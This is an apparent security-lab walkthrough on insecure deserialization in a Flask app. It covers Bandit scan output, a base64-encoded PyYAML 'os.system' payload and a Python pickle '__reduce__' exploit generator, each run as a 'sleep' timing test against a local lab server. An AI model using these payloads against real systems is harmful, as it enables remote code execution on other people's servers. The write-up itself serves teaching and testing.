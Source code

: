 # Insecure deserialization

Serialization is the process of turning some object into a data format that can be restored later. People often serialize objects in order to save them to storage, or to send as part of communications. Deserialization is the reverse of that process -- taking data structured from some format, and rebuilding it into an object. Today, the most popular data format for serializing data is JSON. Before that, it was XML.


### Objective 

* Use template injection to read the flask "configurations" such as the secret for signing JWT tokens
* Use template injection to envoke a local function to leverage RCE

#### spoiler 1 - discovery

There are a lot of ways to do your reconnaissance when performing a penetration test.
However, in this context we have the source code available!

So why not take advanteage of that?

First lets try to run a bandit scan against the application source code!

Bandit is a tool designed to find common security issues in Python code. To do this Bandit processes each file, builds an AST from it, and runs appropriate plugins against the AST nodes. Once Bandit has finished scanning all the files it generates a report.

Installing Bandit is as easy as:

```
pip install bandit
# Or if you're working with a Python 3 project
pip3 install bandit
```

And to run we simply do:

```
bandit -r path/to/your/code
```

Now after running bandit from the results we can find 2 things that should spark out interest such as:

```
>> Issue: [B301:blacklist] Pickle and modules that wrap it can be unsafe when used to deserialize untrusted data, possible security issue.
   Severity: Medium   Confidence: High
   Location: target/project/controllers/About.py:15
   More Info: https://bandit.readthedocs.io/en/latest/blacklists/blacklist_calls.html#b301-pickle
14	        with open('../filename.pickle', 'rb') as handle:
15	            a = pickle.load(handle)
16	        return render_template("about/index.html", content = a)
```

and

```
>> Issue: [B506:yaml_load] Use of unsafe yaml load. Allows instantiation of arbitrary objects. Consider yaml.safe_load().
   Severity: Medium   Confidence: High
   Location: target/project/controllers/Information.py:16
   More Info: https://bandit.readthedocs.io/en/latest/plugins/b506_yaml_load.html
15	            yaml_file = base64.b64decode(input)
16	            content = yaml.load(yaml_file)
17	    except:
```

Now we can look into these files and start tracing them in the web application

#### Spoiler 2 - Discovery && exploitation YAML

When we first authenticate to the application and we start browsing it we find the following page:

```
http://0.0.0.0:8081/information/eWFtbDogVGhlIGluZm9ybWF0aW9uIHBhZ2UgaXMgc3RpbGwgdW5kZXIgY29uc3RydWNhdGlvbiwgdXBkYXRlcyBjb21taW5nIHNvb24h
```

As we can see this link has some base64 encoded string in it, so we decode it to see what it is.

```
Input: eWFtbDogVGhlIGluZm9ybWF0aW9uIHBhZ2UgaXMgc3RpbGwgdW5kZXIgY29uc3RydWNhdGlvbiwgdXBkYXRlcyBjb21taW5nIHNvb24h
Output: yaml: The information page is still under construcation, updates comming soon!
```

This ouput reflects what is being shown in the applications page.
This is a great indicator that there is a function that parses yaml and prints 
the contents on the screen.

Now, if we do some research on the internet we find that pythons yaml allows instantiation of arbitrary objects.
After some more research we can than finally construct the following payload.

```
payload: yaml: !!python/object/apply:os.system ["sleep 10"]
encoded payload: eWFtbDogISFweXRob24vb2JqZWN0L2FwcGx5Om9zLnN5c3RlbSBbInNsZWVwIDEwIl0=

```

with this payload we perform an system command which initiates a sleep command.
Now, if the server takes some time to get back to us we know our injection
was succesfull.

This attack could than ultimately be used to create reverse shell connections or
something similar!


#### Spoiler 3 - discovery && exploitation PICKLE

The Pickle exploit might be somewhat harder to discover.
It is more likely to discover these types of vulnerabilities when you can perform
a static/manual code review. 

the pickle vulnerability is located at:

```
http://0.0.0.0:8081/about
```

To be able to exploit this vulnerability we need to send our own serialized
object to the application to ultimately perform a code execution attack

To be able to craft a succesfull exploit we first have to determine how the object is deserialized.

```
@app.route("/about/sync", methods=['POST'])
def deserialization_pickle():
        with open("../pickle.hacker", "wb+") as file:
            att = request.form['data_obj']
            attack = bytes.fromhex(att)
            file.write(attack)
            file.close()
        with open('../pickle.hacker', 'rb') as handle:
            a = pickle.load(handle)
            print(attack)
            return render_template("about/index.html", content = a)
```

As we can see it is just a simple "pickle.load()"

Now we want to serialize our own class with our arbitrary code execution and convert that to 
hex since the class that deserializes the attack reads the bytes from hex.

The code that is ultimately responsible for generating the exploit code wil look something like:

```
import pickle
import os
import base64
import binascii 

class RunBinSh(object):
  def __reduce__(self):
    return (os.system,('sleep 5',))

print(binascii.hexlify(pickle.dumps(RunBinSh())))
```

if we run the output against the application we can determine by the effective response time
of the application if the code execution was successfull.
